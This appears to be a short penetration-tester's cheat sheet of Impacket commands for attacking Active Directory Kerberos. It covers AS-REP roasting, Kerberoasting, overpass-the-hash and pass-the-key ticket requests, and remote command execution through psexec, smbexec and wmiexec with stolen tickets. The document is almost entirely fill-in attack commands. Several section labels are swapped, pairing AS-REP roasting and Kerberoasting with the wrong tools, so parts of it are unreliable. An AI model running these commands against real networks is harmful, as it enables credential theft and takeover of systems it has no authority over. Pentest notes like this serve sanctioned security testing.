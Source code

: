 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## Check for Kerberoasting: 

- GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

## GetUserSPNs

ASREPRoast:
- impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
- impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

Kerberoasting: 
- impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 

Overpass The Hash/Pass The Key (PTK):

- python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
- python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
- python3 getTGT.py <domain_name>/<user_name>:[password]

## Using TGT key to excute remote commands from the following impacket scripts:

- python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
- python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
- python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

